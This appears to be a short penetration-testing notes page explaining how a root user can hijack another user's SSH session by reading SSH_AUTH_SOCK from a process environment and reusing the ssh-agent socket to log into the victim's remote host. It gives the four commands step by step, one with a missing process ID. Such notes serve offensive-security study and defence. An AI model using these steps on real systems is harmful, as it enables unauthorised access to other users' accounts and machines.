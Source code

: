 # SSH Hijacking

If we are root on a system, we can compromise an active SSH session to another machine via public key authentication. We can either compromise the SSH agent or gain access to the SSH agent’s unix domain socket and hijack the connection.

ssh-agent creates a unix domain socket, and then listens for connections from the sshd daemon to this socket. Based on the permissions of this socket, any of the authentication keys that are used by the socket can be compromised to any user who can connect to the socket.

To perform this:

First determine the SSH process ID:

```
ps aux | grep sshd
```

Then find the SSH\_AUTH\_SOCK environment variable for the sshd

```
grep SSH_AUTH_SOCK /proc//environ
```

Then hijack the ssh-agent socket:

```
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXX/agent.XXXX ssh-add –l
```

Finally, we can log into the remote system our victim is logged into:

```
ssh remotesystem -l victim
```

{% embed url="https://jekhokie.github.io/linux/ssh/security/hijacking/2019/09/07/ssh-agent-hijacking.html" %}

{% embed url="https://hx015.medium.com/ssh-session-hijack-analytic-a2c684ba410f" %}
